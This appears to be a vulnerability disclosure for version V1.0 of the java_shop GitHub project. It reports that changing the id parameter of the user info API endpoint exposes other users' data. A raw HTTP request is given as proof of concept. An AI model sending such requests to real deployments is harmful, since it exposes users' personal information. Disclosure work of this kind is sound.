 target:https://github.com/geeeeeeeek/java_shop version: V1.0

The system has a Broken Access Control vulnerability, which allows attackers to obtain sensitive information of users with different IDs by modifying the ID parameter.

POC:

```
GET /api/myapp/index/user/info?id=91 HTTP/1.1
Host:
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
TOKEN: 
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer:
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```

![aac67b868023202a73fcff3dd9d5b20](./assets/aac67b868023202a73fcff3dd9d5b20.png)

![a2b8c6d86eea77a5ba798c6d05c5167](./assets/a2b8c6d86eea77a5ba798c6d05c5167.png)